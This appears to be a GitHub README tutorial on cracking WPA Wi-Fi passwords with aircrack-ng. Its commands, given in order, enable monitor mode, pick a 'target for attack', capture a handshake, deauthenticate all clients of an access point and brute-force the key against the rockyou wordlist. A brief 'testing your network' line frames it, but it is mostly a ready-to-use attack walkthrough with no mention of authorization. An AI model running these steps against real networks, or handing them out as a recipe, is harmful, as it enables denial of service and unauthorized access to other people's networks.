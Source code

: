 <p align="center"> 
  <img src="https://cdn-icons-png.flaticon.com/512/81/81944.png" alt="HackingWifi" width="80" height="80">
</p>
<h1 align="center">Hacking wifi</h1>


This repository will detail the principle of testing your network. With <a href="https://www.aircrack-ng.org/">aircrack-ng</a>.<br>

__You can look at the script repository for hacking a wifi network. <a href="https://github.com/John-MetrosSoftware/HackingWifiScript">Link</a>.__

## Install aircrack-ng
```
sudo apt install aircrack-ng
```

## Remove unnecessary processes
This command will check and kill processes that might interfere with the aircrack-ng package:
```
sudo airmon-ng check kill
```
## Putting the wifi adapter into monitoring mode
You need to define your network interface. To do this, use the command below, it will display all available network interfaces.
```
ifconfig
```
We are interested in the `wlan0` network interface.<br>
Now we need to put our network adapter into monitoring mode.<br>
```
sudo airmon-ng start wlan0
```
## Monitoring of all wifi networks.
Start browsing wifi networks.
```
sudo airodump-ng wlan0
```
## Monitoring of a specific wifi network.
After viewing, we need to select a target for attack.<br>
The parameters we are interested in are: `bssid` and `channel`.
After the selection, we start interception on a specific access point.
```
airodump-ng --bssid <bssid> -c <cannel> -w <name_wpa_handshake> <network_interface>
```
Example:
```
airodump-ng --bssid ff:ff:ff:ff:ff:ff -c 1 -w handshake wlan0
```
## Wifi network user deauthentication
Now we need to open a new console window.<br>
Now you need to authenticate users of the wifi network. With airplay-ng.
```
aireplay-ng --deauth <number_of_users> -a <bssid> <network_interface>
```
Example:
```
aireplay-ng --deauth 0 -a ff:ff:ff:ff:ff:ff wlan0
```
## Bruteforce
After capturing the handshake, we start brute-force the password using the dictionary. You can use `rockyou.txt` located in `/usr/share/wordlists/rockyou.txt`. If it is packed in an archive, that is, the file name is `rockyou.txt.gz`, then you need to unpack it with the command below.
```
sudo gzip -d /usr/share/wordlists/rockyou.txt.gz
```
We will use this dictionary for brute force, but you can use your own.
```
aircrack-ng <name_wpa_handshake> -w <path_to_dictionary>
```
Example:
```
aircrack-ng handshake-01.cap -w /usr/share/wordlists/rockyou.txt
```

## Conclusion
After that, if specifically in the dictionary you specified there is a password combination that will be correct, then the password will be determined and brute force will end; if there is no such combination in the dictionary, then try in another one.
<br><br>
Here we have analyzed the easiest way to hack a wifi network using brute force.

